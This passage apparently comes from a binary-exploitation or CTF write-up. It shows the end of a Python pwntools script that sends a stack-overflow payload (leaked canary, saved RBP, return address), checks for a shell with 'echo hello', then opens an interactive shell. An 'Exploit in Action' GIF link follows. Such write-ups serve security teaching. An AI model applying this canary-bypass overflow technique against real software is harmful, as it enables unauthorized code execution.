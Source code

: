```python
        payload2 += canary
        payload2 += rbp
        payload2 += ret_addr
        io.send(payload2)
        # echo command to check if we have shell
        command = b"echo hello\n"
        io.sendline(command)
        mssg = io.clean()
        if b"hello" in mssg:
            # drop into interactive shell session
            io.interactive()
        io.close()


brute_win_func(rbp, canary)
```
  </pre>
</div>

### Exploit in Action -

![exploit_gif](https://res.cloudinary.com/dkojbf7tx/image/upload/v1635944989/BlogImages/exikme8h7gvfulxbd8sz.gif)

